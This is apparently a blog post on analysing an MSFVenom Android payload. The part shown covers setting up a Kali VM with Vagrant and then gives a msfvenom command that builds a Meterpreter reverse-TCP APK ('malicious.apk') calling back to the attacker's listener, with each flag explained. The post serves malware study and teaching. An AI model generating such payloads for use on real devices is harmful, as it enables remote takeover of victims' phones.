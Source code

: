 ```yaml
---
title: "Analyzing MSFVenom Android Payload (Malware)"
date: "2022-05-04T09:11:56+02:00"
author: "Kousha Zanjani"
image: https://github.com/user-attachments/assets/2ffd49bd-a909-4d75-9e27-738c0203d4d7
description: MSFVenom is a versatile and widely used tool for generating payloads and shellcodes as part of the Metasploit Framework. It allows users to create customized payloads for various platforms, including Android, for penetration testing purposes. I want to analyze a bit of MSFVenom Android payload to better understand its structure and how it can be used to exploit vulnerabilities in Android devices.
showFullContent: false
tags: ["Android", "Malware", "MalwareAnalysis", "ReverseEngineering", "MSFVenom", "Metasploit"]
keywords: ["Android", "Malware", "MalwareAnalysis", "ReverseEngineering", "MSFVenom", "Metasploit"]
readingTime: true
---
```


MSFVenom is one of the most popular frameworks to create payloads, shellcodes, etc. I want to analyze a little bit of MSFVenom Android payload. So
<p align="center">
<img src="https://user-images.githubusercontent.com/36133745/164783235-d8df38a6-e0f3-4e68-9f64-57fa21b98435.gif">
</p>

## 🎬 Part 1 - Creating an Android payload with MSFVenom
Run your Kali Linux distribution (I use vagrant kalilinux/rolling box) and open a terminal.
```bash
# Installing Kali Linux Box
vagrant box add kalilinux/rolling

# Create a Kali Linux VM
mkdir -p /home/$USER/Desktop/vagrantmachines/kali
cd /home/$USER/Desktop/vagrantmachines/kali
vagrant init kalilinux/rolling

# Set Kali Network to Bridge
# Add below line into Vagrantfile file below config.vm.box = "kalilinux/rolling"
  config.vm.network "public_network"
# Save and Exit from Vagrantfile

# Execute Kali Machine
vagrant up

# SSH to Kali Machine
vagrant ssh

# If you want to turn it off just execute the below command after you exit from SSH
vagrant halt
```

Simply execute the below command.
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=$(ip addr show eth0 | grep -Po 'inet \K[\d.]+') LPORT=1337 > malicious.apk
```
* `-p`: choosing payload
* `LHOST`: listener IP address (C2)
* `LPORT`: listener Port number (C2)
* `> malicious.apk`: output of executed command (attacker payload)

